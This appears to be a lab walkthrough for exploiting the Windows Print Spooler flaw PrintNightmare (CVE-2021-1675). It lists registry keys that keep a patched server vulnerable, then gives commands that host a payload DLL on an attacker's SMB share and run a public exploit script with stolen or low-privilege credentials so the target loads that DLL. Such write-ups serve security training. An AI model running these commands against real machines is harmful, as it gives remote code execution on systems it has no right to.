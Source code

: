 # PrintNightmare (CVE-2021-1675)
## Summary

PrintNightmare is a critical vulnerability that allows an attacker to obtain remote code execution and/or privilege escalation against any target Windows machine using the Spooler service that is enabled by default. While Microsoft has issued a patch for this vulnerability, if a few registry keys are present, then the target will still be vulnerable despite having the patch.

## Prerequisites

Either a Windows server that doesn't have the patch released on July 1st, 2021, or must have some special registry keys added. Further, some form of SMB server and a custom compiled DLL is required to exploit this vulnerability. This exploit requires credentials to operate, even a low-privilege user may work.

## Setup

Once the server is installed, and *if* the server contains the patch, then the following registry keys need to be installed:

```registry
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\RestrictDriverInstallationToAdministrators REG_DWORD 0x0
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall REG_DWORD 0x1
```

![registry entries](./images/Pasted%20image%2020230606093107.png)

## Execution

### Method 1 - Cube0x0's Repo

Clone [Cube0x0's repo](https://github.com/cube0x0/CVE-2021-1675), as well as [this DLL repo](https://github.com/NukingDragons/DllHijacks). Pick the DLL you want from the DLL repo and compile it on Windows, or using MinGW following the instructions in the README.

Once you have the DLL of choice compiled, and whatever listener/method of receiving or connecting to the shell configured, use impackets SMB server to host the file, and run the following commands:

```bash
impacket-smbserver -smb2support share /path/to/folder/with/DLL
```

Finally, exploit the target:

```bash
python3 CVE-2021-1675.py domain.com/username:'password'@target-ip '\\your-ip\share\your.dll'
```

![successful connection](./images/Pasted%20image%2020230606100148.png)

#### Indicators of Compromise

TODO
